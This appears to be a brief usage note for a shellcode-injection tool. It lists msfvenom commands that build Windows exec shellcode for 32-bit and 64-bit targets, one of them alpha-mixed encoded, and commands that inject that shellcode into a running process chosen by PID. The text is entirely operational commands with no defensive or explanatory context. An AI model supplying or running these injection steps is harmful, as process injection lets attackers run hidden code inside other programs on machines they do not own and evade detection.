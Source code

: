 ## Windows

### 32bit

`\windows\syswow64\cmd.exe`

`msfvenom -p windows/exec CMD="c:\path\to\prog.exe arg arg" EXITFUNC=thread -e x86/alpha_mixed -f raw -o exec.txt`

`shellcode_inject.exe PID32 exec.txt`

### 64bit

`msfvenom -p windows/x64/exec CMD="c:\path\to\prog.exe arg arg" EXITFUNC=thread -f raw -o exec.bin`

`shellcode_inject64.exe PID64 exec.bin`
